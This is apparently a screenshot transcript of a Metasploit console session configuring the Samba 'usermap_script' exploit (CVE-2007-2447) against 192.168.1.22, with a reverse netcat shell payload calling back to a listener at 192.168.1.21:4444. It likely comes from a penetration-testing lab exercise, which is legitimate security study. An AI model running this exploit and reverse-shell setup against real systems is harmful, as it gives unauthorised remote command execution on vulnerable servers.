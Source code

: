 ```
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   139              yes       The target port (TCP)

Payload information:
  Space: 1024

Description:
  This module exploits a command execution vulnerability in Samba
  versions 3.0.20 through 3.0.25rc3 when using the non-default
  "username map script" configuration option. By specifying a username
  containing shell meta characters, attackers can execute arbitrary
  commands.

  No authentication is needed to exploit this vulnerability since
  this option is used to map usernames prior to authentication!

References:
  https://nvd.nist.gov/vuln/detail/CVE-2007-2447
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html


View the full module info with the info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOST 192.168.1.22
RHOST => 192.168.1.22
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.22     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
